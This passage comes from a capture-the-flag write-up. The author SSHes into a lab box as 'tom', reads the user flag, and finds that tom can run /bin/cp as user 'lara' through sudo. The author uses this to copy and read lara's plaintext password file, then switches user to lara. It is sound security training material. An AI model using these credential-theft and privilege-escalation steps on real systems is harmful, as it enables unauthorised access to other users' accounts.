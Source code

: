Now we have the passphrase!


### ssh as tom
Trying to ssh to the server once more:
```
❯ ssh 54.194.16.253 -l tom -i tom.key    
Enter passphrase for key 'tom.key': 
[…]
$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

We're in! Just typing `bash` to get a better shell, and checking the content of tom's home directory:
```
tom@ip-10-0-0-91:~$ ls
user.txt
tom@ip-10-0-0-91:~$ cat user.txt |wc -c
29
```

The user flag! But we're not done, would be nice to root the box, right?

### sudo -l
Checking if tom has any access to `sudo`:
```
tom@ip-10-0-0-91:~$ sudo -l
Matching Defaults entries for tom on ip-10-0-0-91:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tom may run the following commands on ip-10-0-0-91:
    (lara) NOPASSWD: /bin/cp
```

And it does look like tom has! We may run the `/bin/cp` command (without password, which we don't have any way) as `lara`. Remembering the `/home/lara/password.txt` file mentioned in the image:
```
tom@ip-10-0-0-91:/dev/shm/myh$ chmod 0777 .
tom@ip-10-0-0-91:/dev/shm/myh$ sudo -u lara /bin/cp /home/lara/password.txt .
tom@ip-10-0-0-91:/dev/shm/myh$ ls
password.txt
tom@ip-10-0-0-91:/dev/shm/myh$ cat password.txt 
Note to self: Do not forget your password..
suP3r_s3cure!
```

### lara and privelege escalation
I kind of prefer to create a folder for myself when doing this kind of things and often end up creating `myh` in the `/dev/shm/` directory. Using the same here, and remembering to `chmod 0777 .` to make sure the `lara` user have write permissions to it.

And voilà, a password! Perhaps this is for the `lara` user?
```
tom@ip-10-0-0-91:~$ su -l lara
Password: 
$ bash
lara@ip-10-0-0-91:~$ id
uid=1002(lara) gid=1002(lara) groups=1002(lara)
```
